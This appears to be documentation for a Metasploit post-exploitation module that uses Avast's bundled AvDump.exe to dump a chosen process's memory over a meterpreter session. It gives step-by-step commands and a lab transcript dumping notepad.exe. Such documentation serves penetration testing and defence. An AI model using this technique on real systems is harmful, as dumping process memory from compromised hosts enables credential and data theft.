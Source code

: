 ### Vulnerable Application -  Avast Home Security Suite - Avdump.exe

The Avast Home Security suite ships with a memory dumping utility that can be
leveraged to dump process memory of user defined processes to user defined 
locations.


## Verification Steps

Verify that the path ```C:\\Program Files\\Avast Software Avast\\AvDump.exe```
exists.
1. Start msfconsole
2. Get meterpreter session
3. Do: ```use post/windows/gather/avast_memory_dump```
4. Do: ```set SESSION <session id>```
5. Do: ```set DUMP_PATH <specify path dest>```
6. Do: ```set PID <pid>```
7. Do: ```run```

## Options

**PID** 
Specify the PID of the process you would like to dump.

**DUMP_PATH** 
Specify the location to write the memory dump to.

##  Scenarios  

### Windows 10 (2004 OS Build 19041.572)
```
msf5 > search avast

Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  post/windows/gather/avast_memory_dump                   normal  No     Avast AV Memory Dumping Utility


msf5 > use 0

msf5 post(windows/gather/avast_memory_dump) > sessions -C 'ps -N notepad.exe'
[*] Running 'ps -N notepad.exe' on meterpreter session 4 (192.168.218.131)
Filtering on 'notepad.exe'

Process List
============

 PID   PPID  Name         Arch  Session  User                  Path
 ---   ----  ----         ----  -------  ----                  ----
 8504  1812  notepad.exe  x64   1        DESKTOP-CD2VHVO\user  C:\Windows\System32\notepad.exe

msf5 post(windows/gather/avast_memory_dump) > show options

Module options (post/windows/gather/avast_memory_dump):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   DUMP_PATH  C:\Users\Public\test.dmp  yes       specify location to write dump file to
   PID        8504                      yes       specify pid to dump
   SESSION    4                         yes       The session to run this module on.
   
msf5 post(windows/gather/avast_memory_dump) > set PID 8504
PID => 8504

msf5 post(windows/gather/avast_memory_dump) > set SESSION 4
SESSION => 4

msf5 post(windows/gather/avast_memory_dump) > run

[*] [2020.10.21-22:49:24] AvDump.exe exists!
[*] [2020.10.21-22:49:24] executing Avast mem dump utility against 8504 to C:\Users\Public\test.dmp
[*] [2020.10.21-22:49:29] [2020-10-22 02:49:26.969] [info   ] [dump       ] [ 1400: 8032] Dumpmaster is arming.
[2020-10-22 02:49:27.047] [info   ] [dump       ] [ 1400: 8032] Successfully dumped process 8504 into 'C:\Users\Public\test.dmp'
[2020-10-22 02:49:27.047] [info   ] [log_module ] [ 1400: 8032] LogModule is going to be destroyed.
[2020-10-22 02:49:27.047] [info   ] [log_module ] [ 1400: 8032] =====================================================================================================================
[*] Post module execution completed

```


